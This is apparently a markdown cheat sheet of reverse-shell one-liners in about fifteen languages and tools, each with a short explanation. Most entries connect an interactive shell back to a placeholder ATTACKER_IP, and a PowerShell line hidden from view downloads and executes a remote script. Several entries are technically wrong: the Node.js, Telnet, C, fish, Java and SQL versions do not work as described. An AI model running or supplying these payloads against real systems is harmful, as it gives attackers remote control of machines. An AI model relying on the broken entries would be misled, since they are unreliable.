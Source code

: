 ﻿# Common Reverse Shells


**Bash Reverse Shell** 

```bash
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
```

**Explanation:** 
- `bash -i`: Starts an interactive Bash shell. 
- `>& /dev/tcp/ATTACKER_IP/PORT`: Redirects both stdout and stderr to a TCP connection to the attacker's IP and port. 
- `0>&1`: Redirects stdin to stdout, allowing interaction with the shell.

**Netcat Reverse Shell** 

```nc
nc -e /bin/bash ATTACKER_IP PORT
```

**Explanation:** 
- `nc`: Invokes the Netcat utility. 
- `-e /bin/bash`: Executes `/bin/bash` upon connection, providing a shell. 
- `ATTACKER_IP PORT`: Specifies the attacker's IP address and port to connect back to.

**PHP Reverse Shell** 
```php
`php -r '$sock=fsockopen("ATTACKER_IP",PORT);exec("/bin/bash -i <&3 >&3 2>&3");'
```

**Explanation:** 
- `php -r`: Runs PHP code from the command line. 
- `fsockopen("ATTACKER_IP",PORT)`: Opens a socket connection to the attacker's IP and port. 
- `exec("/bin/bash -i <&3 >&3 2>&3")`: Executes an interactive Bash shell, redirecting input and output through the socket.

**Python Reverse Shell** 

```python
python -c 'import socket, subprocess, os; s=socket.socket(); s.connect(("ATTACKER_IP",PORT)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); subprocess.call(["/bin/sh", "-i"]);'
```

**Explanation:** 
- `python -c`: Executes Python code from the command line. 
- `socket.socket()`: Creates a new socket. 
- `s.connect(("ATTACKER_IP",PORT))`: Connects the socket to the attacker's IP and port. 
- `os.dup2(...)`: Redirects stdin, stdout, and stderr to the socket. 
- `subprocess.call(["/bin/sh", "-i"])`: Executes an interactive shell.

**Perl Reverse Shell** 

```perl
perl -e 'use Socket;$i="ATTACKER_IP";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
 
**Explanation:** 
- `perl -e`: Executes Perl code from the command line. 
- `use Socket;`: Imports the Socket module. 
- `socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"))`: Creates a TCP socket. 
- `connect(S,sockaddr_in($p,inet_aton($i)))`: Connects to the attacker's IP and port. 
- `open(STDIN,">&S")`: Redirects stdin to the socket. 
- `exec("/bin/sh -i")`: Executes an interactive shell.

**Ruby Reverse Shell** 

```ruby
ruby -rsocket -e 'f=TCPSocket.open("ATTACKER_IP",PORT); exec "/bin/sh -i <&f >&f 2>&f"'
```

**Explanation:** 
- `ruby -rsocket`: Uses the Ruby Socket library. 
- `TCPSocket.open("ATTACKER_IP",PORT)`: Opens a TCP connection to the attacker's IP and port. 
- `exec "/bin/sh -i <&f >&f 2>&f"`: Executes an interactive shell, redirecting I/O through the socket.

**PowerShell Reverse Shell** 

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP:PORT/shell.ps1')"
```

**Explanation:** 
- `powershell`: Executes the PowerShell command. 
- `-NoP`: No profile is loaded. 
- `-NonI`: No interactive mode. 
- `-W Hidden`: Runs PowerShell hidden. 
- `-Exec Bypass`: Bypasses execution policy. 
- `IEX(New-Object Net.WebClient).DownloadString(...)`: Downloads and executes a PowerShell script from the attacker's server.

**Java Reverse Shell** 

```java
r = Runtime.getRuntime(); p = r.exec("bash -i > /dev/tcp/ATTACKER_IP/PORT 0>&1")
```

 
**Explanation:** 
- `Runtime.getRuntime()`: Gets the runtime instance. 
- `r.exec(...)`: Executes a command. 
- `bash -i > /dev/tcp/ATTACKER_IP/PORT 0>&1`: Redirects an interactive shell to the attacker's IP and port.

**Node.js Reverse Shell** 

```js
require('child_process').spawn('bash', [], {stdio: 'inherit', shell: true, detached: true});
```

**Explanation:** 
- `require('child_process')`: Imports the child_process module. 
- `spawn('bash', [], {stdio: 'inherit', shell: true})`: Executes Bash and inherits the input/output streams, allowing for an interactive shell.

**Telnet Reverse Shell** 

```
telnet ATTACKER_IP PORT
```

**Explanation:** 
- `telnet`: Connects to a remote host using Telnet. 
- `ATTACKER_IP PORT`: Specifies the attacker's IP and port to connect back to. 

**C Reverse Shell** 

```c
gcc -o shell shell.c && ./shell
```

**Explanation:** 
- Compiles a C program that creates a reverse shell. 
- `gcc -o shell shell.c`: Compiles the shell.c source file. 
- `./shell`: Executes the compiled shell program.

**Fish Shell Reverse Shell** 

```fish
fish -c "exec 5<>/dev/tcp/ATTACKER_IP/PORT; cat <&5 | while read line; do $line >&5; done"
```

**Explanation:** 
- `fish -c`: Executes the command in Fish shell. 
- `exec 5<>/dev/tcp/ATTACKER_IP/PORT`: Opens a TCP connection for reading and writing. 
- `cat <&5 | while read line; do $line >&5; done`: Reads commands from the connection and executes them.

**Exec Reverse Shell** 

```exec
exec 5<>/dev/tcp/ATTACKER_IP/PORT; cat <&5 | while read line; do $line >&5; done
```

**Explanation:** 
- `exec 5<>/dev/tcp/ATTACKER_IP/PORT`: Opens a TCP connection using file descriptor 5. 
- `cat <&5 | while read line; do $line >&5; done`: Reads commands from the TCP connection and executes them.

**Docker Reverse Shell** 

 ```docker
docker run -it --rm --network host alpine sh -c 'exec 5<>/dev/tcp/ATTACKER_IP/PORT; cat <&5 | while read line; do $line >&5; done'
```

**Explanation:** 
- `docker run -it --rm --network host alpine`: Runs an Alpine container in interactive mode with host networking. 
- `exec 5<>/dev/tcp/ATTACKER_IP/PORT`: Opens a TCP connection to the attacker's IP and port. 
- `cat <&5 | while read line; do $line >&5; done`: Executes commands read from the connection.

**SQL Reverse Shell** 

```sql
mysql -e 'select load_file("/dev/tcp/ATTACKER_IP/PORT")'
```

**Explanation:** 
- `mysql -e`: Executes a MySQL command. 
- `select load_file(...)`: Attempts to load a file over TCP, effectively creating a reverse shell if the system is misconfigured.`
